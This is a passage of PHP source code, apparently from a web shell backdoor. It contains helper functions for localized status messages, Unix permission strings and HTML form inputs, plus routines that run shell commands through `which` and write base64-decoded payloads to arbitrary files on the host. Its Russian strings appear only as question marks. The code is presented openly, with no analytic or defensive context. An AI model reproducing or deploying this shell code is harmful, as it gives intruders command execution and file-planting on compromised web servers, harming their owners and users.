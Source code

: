 }
function mr($l,$n)
{
$text['ru']  = array('?? ??????? ????????? ??????','?????? ??????????');
$text['tur'] = array('Can\'t send mail','Mail sent');
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font color=orange face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text[$l][$n]."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function perms($mode)
{
if ($GLOBALS['windows']) return 0;
if( $mode & 0x1000 ) { $type='p'; }
else if( $mode & 0x2000 ) { $type='c'; }
else if( $mode & 0x4000 ) { $type='d'; }
else if( $mode & 0x6000 ) { $type='b'; }
else if( $mode & 0x8000 ) { $type='-'; }
else if( $mode & 0xA000 ) { $type='l'; }
else if( $mode & 0xC000 ) { $type='s'; }
else $type='u';
$owner["read"] = ($mode & 00400) ? 'r' : '-';
$owner["write"] = ($mode & 00200) ? 'w' : '-';
$owner["execute"] = ($mode & 00100) ? 'x' : '-';
$group["read"] = ($mode & 00040) ? 'r' : '-';
$group["write"] = ($mode & 00020) ? 'w' : '-';
$group["execute"] = ($mode & 00010) ? 'x' : '-';
$world["read"] = ($mode & 00004) ? 'r' : '-';
$world["write"] = ($mode & 00002) ? 'w' : '-';
$world["execute"] = ($mode & 00001) ? 'x' : '-';
if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
$s=sprintf("%1s", $type);
$s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
$s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
$s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
return trim($s);
}
function in($type,$name,$size,$value)
{
 $ret = "&lt;input type=".$type." name=".$name." ";
 if($size != 0) { $ret .= "size=".$size." "; }
 $ret .= "value=\"".$value."\"&gt;";
 return $ret;
}
function which($pr)
{
$path = ex("which $pr");
if(!empty($path)) { return $path; } else { return $pr; }
}
function cf($fname,$text)
{
 $w_file=@fopen($fname,"w") or we($fname);
 if($w_file)
 {
 @fputs($w_file,@base64_decode($text));
 @fclose($w_file);
 }
}
function sr($l,$t1,$t2)
 {
 return "&lt;tr class=tr1&gt;&lt;td class=td1 width=".$l."% align=right&gt;".$t1."&lt;/td&gt;&lt;td class=td1 align=left&gt;".$t2."&lt;/td&gt;&lt;/tr&gt;";